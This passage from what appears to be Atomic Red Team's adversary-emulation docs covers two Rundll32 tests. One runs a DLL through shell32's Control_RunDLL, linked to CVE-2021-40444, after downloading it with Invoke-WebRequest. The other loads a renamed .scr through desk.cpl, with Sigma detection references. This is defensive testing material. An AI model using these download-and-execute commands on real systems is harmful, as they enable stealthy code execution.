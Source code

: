 


<br/>
<br/>

## Atomic Test #12 - Rundll32 with Control_RunDLL
Rundll32.exe loading dll with 'control_rundll' within the command-line, loading a .cpl or another file type related to CVE-2021-40444.

**Supported Platforms:** Windows


**auto_generated_guid:** e4c04b6f-c492-4782-82c7-3bf75eb8077e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_url | Url to download the DLL | Url | https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1047/bin/calc.dll|
| input_file | DLL File | String | PathToAtomicsFolder&#92;T1047&#92;bin&#92;calc.dll|


#### Attack Commands: Run with `command_prompt`! 


```cmd
rundll32.exe shell32.dll,Control_RunDLL #{input_file}
```




#### Dependencies:  Run with `powershell`!
##### Description: DLL file must exist on disk at specified location
##### Check Prereq Commands:
```powershell
if (Test-Path #{input_file}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "#{input_url}" -OutFile "#{input_file}"
```




<br/>
<br/>

## Atomic Test #13 - Rundll32 with desk.cpl
Rundll32.exe loading an executable renamed as .scr using desk.cpl 
Reference: 
  - [LOLBAS - Libraries/Desk](https://lolbas-project.github.io/lolbas/Libraries/Desk/)
SIGMA rules:
  - [SCR File Write Event](https://github.com/SigmaHQ/sigma/blob/b53f08b081e0a50099be9b9e8eced82097fdbaf2/rules/windows/file_event/file_event_win_new_src_file.yml)
  - [Rundll32 InstallScreenSaver Execution](https://github.com/SigmaHQ/sigma/blob/b53f08b081e0a50099be9b9e8eced82097fdbaf2/rules/windows/process_creation/proc_creation_win_lolbin_rundll32_installscreensaver.yml)
